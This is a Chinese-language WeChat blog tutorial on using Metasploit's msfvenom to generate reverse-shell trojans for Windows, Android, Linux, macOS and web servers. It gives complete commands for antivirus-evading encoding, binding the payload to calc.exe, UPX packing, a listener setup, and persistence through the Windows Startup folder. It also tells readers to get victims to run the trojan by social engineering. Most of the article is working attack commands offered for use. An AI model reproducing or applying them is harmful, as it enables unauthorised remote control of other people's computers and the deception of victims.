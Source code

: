 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247484177&idx=1&sn=95643b5149cc2858187ee7b08944ed87&chksm=eaad832cddda0a3a1c340971bda73c34a5e808f3bb9d686f5a955f721dd1e3fd746406e57653&scene=21#wechat_redirect)

**目录**

  

Msfvenom

生成 exe 木马

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5x6JawVlxYwrsf4OxhIz1HzZrTT4UZAcukC3cKqetSHpGJABL8ZCM8yibLyNpvY2Zia3IAY3P6yE9A/640?wx_fmt=gif)

  

  

在前一篇文章中我讲了什么是 Meterpreter，并且讲解了 Meterpreter 的用法。传送门——>Metasploit 之 Meterpreter

今天我要讲的是我们用 Msfvenom 制作一个木马，发送给其他主机，只要其他主机运行了该木马，就会自动连接到我们的主机，并且建立一条 TCP 连接。我们可以通过这条 TCP 连接控制目标主机。

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/YUyZ7AOL3omibErD0ylUqAdVrtJNSatMGHTmp1EJfkFZ3oOOtVyayHwic46picqfC9z4AN9xsMosJbw1WFDQIguaA/640?wx_fmt=png)

Msfvenom

**Msfvenom**  

· –p (- -payload-options)：添加载荷 payload。载荷这个东西比较多，这个软件就是根据对应的载荷 payload 生成对应平台下的后门，所以只有选对 payload，再填写正确自己的 IP，PORT，就可以生成对应语言，对应平台的后门了！！！

· –l：查看所有 payload encoder nops。

· –f ：输出文件格式。

· –e：编码免杀。

· –a：选择架构平台  x86 | x64 | x86_64

· –o：文件输出

· –s：生成 payload 的最大长度，就是文件大小。

· –b：避免使用的字符 例如：不使用 ‘\0f’。

· –i：编码次数。

· –c：添加自己的 shellcode

· –x | -k：捆绑

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e4moqygI59agYAD3Btf8jPDic5yc991Wgzsy7R3jEHHXqxZYNmiaGQFicoAt3kpEjeseJ2zic4l1iaG8w/640?wx_fmt=png)

### **生成 exe 木马**

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.27 lport=8888 -f exe -o test.exe  #lhost是我们的主机ip，lport是我们主机的用于监听的端口

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.27 lport=8888 -i 3 -e x86/shikata_ga_nai  -f exe -o test.exe  #编码3次
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e4moqygI59agYAD3Btf8jP8oBxenauKpwDZ0L54XXlrMEVBMAmylA2JaRUfBSS9ygCCibmVwmqnrA/640?wx_fmt=png)

然后会在该目录下生成一个 test.exe 的木马。

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -i 20 lhost=192.168.10.11 lport=8888 -x calc.exe -f exe -o test.exe      #编码20次、捆绑正常的32位calc.exe，生成32位的test.exe文件
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e4moqygI59agYAD3Btf8jP08m5WPThS0J9iaxswiaQBuQIn2lAG7u2ib6blZbRq9udicqicemf0Ob9iaicw/640?wx_fmt=png)

**利用 upx 加壳**

upx -9 test.exe -k -o test2.exe

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e4moqygI59agYAD3Btf8jPFrIxphcBib6mCvdic5uuglVHWDuI0fcg3StFMHibLsXMGWp36SWUQM4TQ/640?wx_fmt=png)

**下面介绍一些生成其他格式的木马！**

```
安卓app:

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -o ~/Desktop/test2.apk

Linux:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f  elf > shell.elf

Mac:

msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f macho >  shell.macho

PHP：

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.27 LPORT=4444 -f raw -o test.php

ASP:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888  -f asp > shell.asp

ASPX：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.27 LPORT=8888  -f  aspx > shell.aspx

JSP:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.10.27 LPORT=8888 -f  raw > shell.jsp

Bash：

msfvenom -p cmd/unix/reverse_bash LHOST=192.168.10.27 LPORT=8888 -f   raw > shell.sh

Perl

msfvenom -p cmd/unix/reverse_perl LHOST=192.168.10.27 LPORT=8888 -f raw > shell.pl

Python

msfvenom -p python/meterpreter/reverser_tcp LHOST=192.168.10.27 LPORT=8888 -f   raw > shell.py
```

接下来，我们运行 msfconsole 进入 MSF 控制台，然后输入以下命令

```
msf > use exploit/multi/handler  #使用exploit/multi/handler监听从肉鸡发来的数据

msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  #设置payload，不同的木马设置不同的payload

msf exploit(handler) > set lhost 192.168.10.15  #我们的主机ip

msf exploit(handler) > set lport 8888            #我们的主机端口

msf exploit(handler) > exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e4moqygI59agYAD3Btf8jPbrmeCtqnuFhUvDbf8426fYxBEZ08jeP1wiajnzTEaV82ERzWdE5CHCA/640?wx_fmt=png)

然后，将木马发送给其他人，无论使用什么手段 (可以使用社会工程学) 让其在其他主机上运行，我们这边就会接收到反弹过来的 session。

因为我们刚刚把进程挂在后台，所以我们输入：**sessions  -l**  可以查看到我们得到的 shell，使用 sessions -i  1 可以进入指定的 shell，我们这里只有一个，所以 id 为 1。如图，我们成功拿到了其他主机的 shell

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2e4moqygI59agYAD3Btf8jP2BNKuwBZLibbYdEQ0tUyuiaFG1WicibJxFCEuMaicwrMQzQYX4hQIqZyrEw/640?wx_fmt=png)

对于这个木马，如果我们在获取到某主机的 shell 后，想要在目标主机建立持续性的后门，我们可以将该木马放到目标主机的开机启动项中，那样，只要该主机启动后，我们就可以连接到该主机了。

```
C:\Users\$username$\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

关于 MSF 的详细使用教程，可以参考如下书籍

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2ckkbwTsBvnDJpb89o8WMxvAKOaVnz60hOe7y3wAHiclddyK53lpEKIQlx4DKOq6EojHibVicgibDB2aQ/640)

来源：谢公子的博客

责编：梁粉

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2edCjiaG0xjojnN3pdR8wTrKhibQ3xVUhjlJEVqibQStgROJqic7fBuw2cJ2CQ3Muw9DTQqkgthIjZf7Q/640)

由于文章篇幅较长，请大家耐心。如果文中有错误的地方，欢迎指出。有想转载的，可以留言我加白名单。

最后，欢迎加入谢公子的小黑屋（安全交流群）(QQ 群：783820465)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SjCxEtGic0gSRL5ibeQyZWEGNKLmnd6Um2Vua5GK4DaxsSq08ZuH4Avew/640)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640)